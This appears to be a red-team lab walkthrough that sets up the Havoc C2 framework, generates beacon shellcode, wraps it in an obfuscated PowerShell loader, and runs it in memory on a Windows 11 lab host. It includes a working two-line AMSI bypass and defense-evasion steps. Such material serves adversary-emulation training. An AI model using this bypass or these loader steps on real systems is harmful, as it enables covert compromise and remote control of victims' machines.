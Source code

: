 # 2 - Initial Compromise and Weaponization

## C2 Communication 
Command and Control (C2) is the backbone of any offensive security operation, enabling persistent communication between an operator and compromised hosts. 
Once initial access is established, a C2 framework allows for payload delivery, lateral movement, privilege escalation, and stealthy persistence.

## Havoc C2 Framework

Havoc's customizable implants can be deployed to establish secure, encrypted communication channels, leveraging in-memory execution and BOF (Beacon Object File) extensions for modular and evasive payload delivery.

- Open-source, modular C2 for adversary emulation
- Customizable implants with BOF (Beacon Object File) support
- EDR evasion techniques built-in for stealthy operations
- Integrates with tools like Cobalt Strike, Mythic, and Sliver

> Please see the Havoc [Wiki](https://github.com/HavocFramework/Havoc/wiki) for complete documentation.

## Starting Havoc Team Server

To launch the Havoc Team Server, follow these steps:

1. Navigate to the Havoc directory:
```bash
cd /home/kali/Havoc
```
2. Start the Team Server:
```bash
./havoc server 10.10.X.200 --profile ./profiles/havoc.yaotl -v
```
![image](https://github.com/user-attachments/assets/61539124-3a77-40f3-9532-2a01ce92b2c4)

## Starting Havoc Client
To launch the Havoc client, follow these steps:

1. Open a new terminal and navigate to the Havoc directory:
```bash
cd /home/kali/Havoc
```
2. Start the client:
```bash
./havoc client
```
![image](https://github.com/user-attachments/assets/c46c8100-b101-4c3b-b19e-faf5746f3feb)

After launching the client, enter the following connection details:

- Alias: `[anything you like]`
- Host: `10.10.X.200`
- Port: `40056`
- User: `Neo`
- Password: `password1234`

## Listener Management

Once the Team Server is running, the next step is to configure a Listener
(the component that handles inbound and outbound Beacon communications)

A listener acts as the endpoint for compromised systems (Beacons), allowing them to communicate with the Havoc Team Server over standard HTTP/HTTPS channels using GET and POST requests. This setup enables secure, flexible C2 message exchange.

### Creating a Listener
1. Navigate to: View > Listeners
2. Click the ADD button in the Listeners window.
![image](https://github.com/user-attachments/assets/b8be2d9e-eb5f-4ee5-8cbc-756619b76cf8)

3. Fill in the required fields:
![image](https://github.com/user-attachments/assets/40ab7727-9976-4d26-9c45-5db9ec205d1f)

Here, you provide the IP addresses and/or domain names that the Beacon payload will call back to. 
By default, it will auto-populate with the IP address of the Attacker Kali VM.

4. Click `Save` to activate the listener.

## Generating Payloads 
Once your listener is active, you can generate payloads that will connect back to it.  
These payloads can be used for different delivery methods depending on your engagement needs.  

We are going to create a raw Windows shellcode binary (beacon.bin) that initiates a connection to our configured listener:

### Creating a Beacon (beacon.bin)
1. Navigate to: Attacks > Payloads
![image](https://github.com/user-attachments/assets/b195ce9a-1931-4c98-9003-ec232bdcf281)

2. In the payload generation window:
- Listener: `https`
- Arch: `x64`
- Format: `Windows Shellcode`
- Sleep Jmp Gadget: `jmp rbx`
- Amsi/Etw Patch: `Hardware breakpoints`

3. Click Generate

Save the generated Windows Shellcode payload in the following folder:
```
/home/kali/Havoc/obfuscator/beacon.bin
```
The output file (beacon.bin) contains the raw shellcode ready for embedding into custom loaders, BOFs, or shellcode injection frameworks.

## Converting beacon.bin to a PowerShell Loader with a Python Obfuscator Script
We will deliver the raw (beacon.bin) shellcode in a flexible and memory-resident way, 

Using the Python Obfuscator Script `havoc_obfuscate_ps1.py`, we will wrap our binary payload in a PowerShell script that can:
- Decrypts the shellcode in-memory
- Allocates executable memory
- Executes via API calls (`VirtualAlloc`, `CreateThread`)

This enables fileless execution and evades simple static detection mechanisms.

### Steps to Generate the Powershell Loader
1. Ensure your "beacon.bin" is generated and located in the working directory:
```
/home/kali/Havoc/obfuscator/beacon.bin
```
2. Run the Python script to encrypt and embed the shellcode into a PowerShell loader:
![image](https://github.com/user-attachments/assets/0f1140c0-b849-4535-b30c-6de856fbc4d7)

```bash
python3 havoc_obfuscate_ps1.py beacon.bin
```
3. The script outputs `beacon_loader_obfuscated.ps1`, which is now ready for use in initial access.
![image](https://github.com/user-attachments/assets/ffa81919-ced3-4833-a1e7-94e20236ced2)

   
## Initial Compromise — Manual Execution via PowerShell ISE

Now, we will manually execute our `beacon_loader_obfuscated.ps1` loader on the target system while bypassing Windows Defender mechanisms like AMSI (Antimalware Scan Interface).

This gives us more control over execution and helps ensure in-memory delivery of the Windows Shellcode `beacon.bin`.

### Step-by-Step
1. Navigate back to the RDP Session (FreeRDP) with the Windows 11 Host.
2. Open PowerShell_ISE.
3. On the Kali Machine, locate and open the file AMSI.txt:
```
/home/kali/Havoc/obfuscator/AMSI.txt
```
3. Do the same for our generated `beacon_loader_obfuscated.ps1` Powershell loader:

4. Inject AMSI Bypass (line by line):
```powershell
$a=([ref].Assembly.GetTypes() | ? { $_.Name -like '*Amsi*' }).DeclaredFields | ?  { $_.Name -eq 'amsiInitFailed' }
$a.SetValue([void]0, $true)
```
Paste each line of your AMSI bypass code individually into the PowerShell_ISE command pane and execute per line.

5. Copy, paste and execute the loader:
![image](https://github.com/user-attachments/assets/bbb273e7-155a-4e37-b97e-1d7abb5e5fe2)

Once AMSI is bypassed, paste the full contents of `beacon_loader_obfuscated.ps1` into the PowerShell_ISE command pane and hit Enter.

This will:
- Decrypt the shellcode
- Allocate RWX memory
- Launch a new thread with the beacon

## The Havoc beacon is deployed!
After successfully executing the payload on the target machine:
1. Return to your Kali (operator) machine.
2. Re-open the Havoc Client GUI:
3. You should now see a new active Beacon listed in the upper-left corner.

If it appears healthy, the communication with the target is established.

### Interacting with the Beacon
1. Double-click on the Beacon to open a new tab labelled with its UID.
2. In the command input at the bottom of the tab, type:
```
help
```
This will list all available post-exploitation commands and modules.
![image](https://github.com/user-attachments/assets/8904aac7-6829-4829-8351-19c87ba3a693)

